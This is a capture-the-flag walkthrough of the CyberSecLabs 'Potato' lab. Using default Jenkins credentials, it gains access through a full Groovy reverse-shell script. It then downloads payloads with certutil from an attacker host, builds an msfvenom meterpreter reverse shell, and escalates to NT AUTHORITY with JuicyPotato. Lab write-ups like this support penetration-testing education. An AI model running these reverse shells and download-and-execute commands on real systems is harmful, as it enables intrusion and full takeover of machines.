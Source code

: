 # Solving [CyberSecLabs-Potato](https://www.cyberseclabs.co.uk/labs/info/Potato/)
* [Nmap](https://github.com/nmap/nmap) scan shows many ports are up but `8080` is running [Jetty](https://www.eclipse.org/jetty/)
* Jenkins is hosted on jetty with default username and password equal to `admin`
* Following [this](https://book.hacktricks.xyz/pentesting/pentesting-web/jenkins) brings me to machine_ip:8080/script where we can write a groovy script for a reverse-shell
```cmd
String host="TUN_IP";
int port=1337;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
* Using [winPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite) to check for possible exploit options (`certutil` is used for downloading)
* On attack machine `python3 -m http.server 80 `
* On victim machine `certutil.exe -urlcache -split -f "http://TUN_IP:80/wp.exe"`
* Among all the other stuff, SeImpersonatePrivilege is marked red in winPeas output
```
[+] Current Token privileges
SeImpersonatePrivilege: SE_PRIVILEGE_ENABLED_BY_DEFAULT, SE_PRIVILEGE_ENABLED
```
* Searching about it says that it can be exploited via kernal-level exploit called [JuicyPotato](https://github.com/ohpe/juicy-potato)
* Juicypotato needs an executable which gives us rev-shell which we generated with [msfvenom](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=TUN_IP LPORT=4444 -f exe > rev.exe
```
* Downloading rev.exe and juicypotato.exe(jp.exe) on victim machine
```
certutil.exe -urlcache -split -f "http://TUN_IP:80/jp.exe"
certutil.exe -urlcache -split -f "http://TUN_IP:80/rev.exe"
```
* `.\jp.exe -h` tells three arguments are compulsory: `-t`, `-l`, and `-p`
* Following gives us meterpreter with NTAuthority access
`.\jp.exe -t * -l 4444 -p rev.exe`
